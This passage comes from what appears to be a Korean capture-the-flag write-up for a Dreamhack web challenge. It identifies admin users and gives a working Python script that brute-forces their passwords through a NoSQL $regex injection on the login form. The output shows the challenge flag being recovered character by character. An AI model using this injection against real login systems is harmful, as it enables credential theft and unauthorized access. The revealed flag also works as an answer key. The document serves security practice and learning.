```
cream has authentication!
berry has no authentication..
ice has no authentication..
panda has no authentication..
```
`testuser`와 `cream`이라는 유저가 admin 권한이 있다는 것을 알아냈다.<br />
해당 코드에서 유저들의 이름을 담은 string array를 사용하고 있는데 이름의 리스트는 문제에서 제공하는 파일 중 `db.sql`에 들어있다.
##### testuser와 cream의 비밀번호 구하기
```python
import requests
import string

url = "http://host1.dreamhack.games:14265//login"
usernames = ["testuser", "cream"]
ALPHANUMERIC = string.ascii_letters + string.digits + "{}"

for username in usernames:
    base_str = ""
    while True:
        is_new_found = False

        for c in ALPHANUMERIC:
            pw = base_str +  c

            # sending POST requests and getting the authentication
            body_data = {
                "uid": username,
                "upw": { "$regex": f"^{pw}" }
            }
            resp = requests.post(url, json=body_data)

            if "Welcome, " in resp.text:
                is_new_found = True
                base_str = pw
                print(base_str)
                break

        if not is_new_found:
            print(f"{username}'s password is {pw}")
            break
```
```
// result
D
DH
DH{
DH{0
DH{0d
DH{0da
DH{0da0
DH{0da0d
DH{0da0d8
DH{0da0d81
DH{0da0d81e
DH{0da0d81e5
DH{0da0d81e54
DH{0da0d81e54f
DH{0da0d81e54f5
DH{0da0d81e54f57
DH{0da0d81e54f57b
testuser's password is DH{0da0d81e54f57b}
e
e1
```